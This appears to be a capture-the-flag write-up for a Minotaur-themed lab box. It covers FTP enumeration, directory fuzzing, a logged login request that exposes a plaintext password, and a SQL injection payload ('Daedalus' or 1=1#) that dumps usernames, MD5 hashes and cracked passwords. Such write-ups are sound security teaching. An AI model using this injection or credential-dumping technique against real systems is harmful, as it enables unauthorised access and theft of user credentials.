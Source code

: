 First flag is in ftp `.secret folder`

we also get `message.txt` and `keep_in_mind.txt` files

flag #1
fl4g{Hermes_was_not_that_fast}

The messages say something about a `timer` And an invitation to look around

Don't mind if I do
I tried to fuzz for directories and oh boy it was not simple even with filters
haha jebait.html is a cool page but not useful

```html
<!-- response - oh would have thouhgt it would be this easy :) -->
```

The `logs` dir on other hand got a `post_log` file

```text
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv
Connection: close

email=Daedalus&password=g2e55kh4ck5r
```

Alternativel there is a riddle in the source code of login page
you can reconstitute daedalus password solving it, but me I just found them in logs

{{< post-img src="login.jpg" alt="labyrinth" style="width: 400px;" >}}

Now we can login...and there is a search bar...
with the sql database and phpmyadmin installations we found all this now scream SQLI
And the source code says

```html
<!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->
```

first we try what we know and get

```text
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6
```

Sql injection is an art that require patience
We try deadalus + common payloads
And this works

`Daedalus' or 1=1#`

```text
1 Eurycliedes 42354020b68c7ed28dcdeabd5a2baf8e //greeklover
2 Menekrates 0b3bebe266a81fbfaa79db1604c4e67f //greeksalad
3 Philostratos b83f966a6f5a9cff9c6e1c52b0aa635b //nickthegreek
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6 //g2e55kh4ck5r
5 M!n0taur 1765db9457f496a39859209ee81fbda4 //aminotauro
```
